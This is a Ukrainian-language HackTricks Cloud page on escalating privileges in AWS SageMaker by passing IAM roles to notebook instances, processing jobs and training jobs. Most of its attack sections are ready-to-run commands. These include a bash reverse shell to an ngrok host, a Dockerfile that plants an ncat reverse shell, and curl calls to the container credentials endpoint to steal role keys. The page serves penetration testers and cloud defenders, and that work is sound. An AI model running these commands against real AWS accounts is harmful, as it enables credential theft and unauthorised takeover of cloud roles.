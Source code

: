 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Почніть створювати ноутбук з IAM роллю, щоб отримати доступ до прикріпленого до нього:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Відповідь повинна містити поле `NotebookInstanceArn`, яке міститиме ARN новоствореного екземпляра блокнота. Потім ми можемо використовувати API `create-presigned-notebook-instance-url`, щоб згенерувати URL, який ми можемо використовувати для доступу до екземпляра блокнота, коли він буде готовий:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Перейдіть за URL-адресою в браузері та натисніть на \`Open JupyterLab\` у верхньому правому куті, потім прокрутіть вниз до вкладки “Launcher” і в розділі “Other” натисніть кнопку “Terminal”.

Тепер можливо отримати доступ до облікових даних метаданих IAM Role.

**Potential Impact:** Privesc до ролі служби sagemaker, що вказана.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Якщо на ньому вже **запущені Jupyter ноутбуки** і ви можете їх перерахувати за допомогою `sagemaker:ListNotebookInstances` (або виявити їх будь-яким іншим способом). Ви можете **згенерувати URL для них, отримати до них доступ і вкрасти облікові дані, як зазначено в попередній техніці**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Потенційний вплив:** Privesc до ролі служби sagemaker, що прикріплена.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Зловмисник з цими дозволами може змусити **sagemaker виконати обробку** з прикріпленою роллю sagemaker. Зловмисник може вказати визначення контейнера, який буде запущено в **управляємому AWS ECS обліковому записі**, і **викрасти облікові дані прикріпленої IAM ролі**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Потенційний вплив:** Privesc до ролі служби sagemaker, що вказана.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Зловмисник з цими дозволами зможе створити навчальну задачу, **запускаючи довільний контейнер** на ній з **доданою роллю**. Отже, зловмисник зможе вкрасти облікові дані ролі.

{% hint style="warning" %}
Цей сценарій складніше експлуатувати, ніж попередній, оскільки вам потрібно створити образ Docker, який надішле rev shell або облікові дані безпосередньо зловмиснику (ви не можете вказати команду запуску в конфігурації навчальної задачі).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Потенційний вплив:** Privesc до ролі служби sagemaker.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Зловмисник з цими дозволами зможе (потенційно) створити **роботу з навчання гіперпараметрів**, **запустивши довільний контейнер** на ній з **доданою роллю**.\
_Я не експлуатував через брак часу, але це виглядає подібно до попередніх експлойтів, не соромтеся надіслати PR з деталями експлуатації._

## Посилання

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
